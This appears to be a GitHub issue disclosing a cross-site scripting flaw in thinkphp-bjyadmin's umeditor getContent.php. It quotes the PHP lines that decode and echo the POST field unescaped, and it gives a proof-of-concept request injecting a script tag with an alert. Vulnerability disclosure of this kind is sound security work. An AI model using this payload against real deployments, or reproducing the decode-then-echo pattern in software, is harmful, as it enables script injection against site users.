


A xss vulnerability in bjyadmin-latest(commit a560fd5).

The path of the vulnerability.

In file https://github.com/baijunyao/thinkphp-bjyadmin/blob/master/Public/statics/umeditor1_2_3/php/getContent.php

```php
...
$content =  htmlspecialchars($_POST['myEditor']);		// Line 9
...
echo  "<div class='content'>".htmlspecialchars_decode($content)."</div>"; // Line 14
```


We see that there is no check between the input  $_POST["myEditor"] and the output(Line 9)

Thus the XSS will happen at `echo  "<div class='content'>".htmlspecialchars_decode($content)."</div>";`

Poc:

POST /Public/statics/umeditor1_2_3/php/getContent.php 

`myEditor=</div><script>alert('xss')</script>`

Manual verification:






@baijunyao